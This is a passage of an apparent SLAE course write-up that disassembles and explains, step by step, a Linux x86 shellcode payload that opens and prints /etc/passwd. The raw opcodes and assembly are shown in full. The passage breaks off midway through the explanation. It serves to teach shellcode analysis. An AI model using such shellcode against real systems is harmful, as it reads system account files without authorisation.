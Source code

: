 # Solution

If we dump the nasm code from the payload, here is what we can see:

    00000000  EB36              jmp short 0x38
    00000002  B805000000        mov eax,0x5
    00000007  5B                pop ebx
    00000008  31C9              xor ecx,ecx
    0000000A  CD80              int 0x80
    0000000C  89C3              mov ebx,eax
    0000000E  B803000000        mov eax,0x3
    00000013  89E7              mov edi,esp
    00000015  89F9              mov ecx,edi
    00000017  BA00100000        mov edx,0x1000
    0000001C  CD80              int 0x80
    0000001E  89C2              mov edx,eax
    00000020  B804000000        mov eax,0x4
    00000025  BB01000000        mov ebx,0x1
    0000002A  CD80              int 0x80
    0000002C  B801000000        mov eax,0x1
    00000031  BB00000000        mov ebx,0x0
    00000036  CD80              int 0x80
    00000038  E8C5FFFFFF        call 0x2
    0000003D  2F                das
    0000003E  657463            gs jz 0xa4
    00000041  2F                das
    00000042  7061              jo 0xa5
    00000044  7373              jnc 0xb9
    00000046  7764              ja 0xac
    00000048  00                db 0x00

Let's analyze the content of this step by step.

    1) 00000000  EB36              jmp short 0x38 ; Jump to 0x38 

    2) 00000038  E8C5FFFFFF        call 0x2 ; Execute 0x2

    3)  00000002  B805000000        mov eax,0x5 ; 5 is set to EAX <=> Syscall, function open selected

        00000007  5B                pop ebx ; The content of the top of the stack is set to ebx, in this case, /etc/passwd).

        ![alt text](https://github.com/MrSquid25/SLAE/blob/master/Assignment%205/read_file/pop_ebx.PNG "Pop Ebx")
        
        00000008  31C9              xor ecx,ecx
        0000000A  CD80              int 0x80
        0000000C  89C3              mov ebx,eax
        0000000E  B803000000        mov eax,0x3
        00000013  89E7              mov edi,esp
        00000015  89F9              mov ecx,edi
        00000017  BA00100000        mov edx,0x1000
        0000001C  CD80              int 0x80
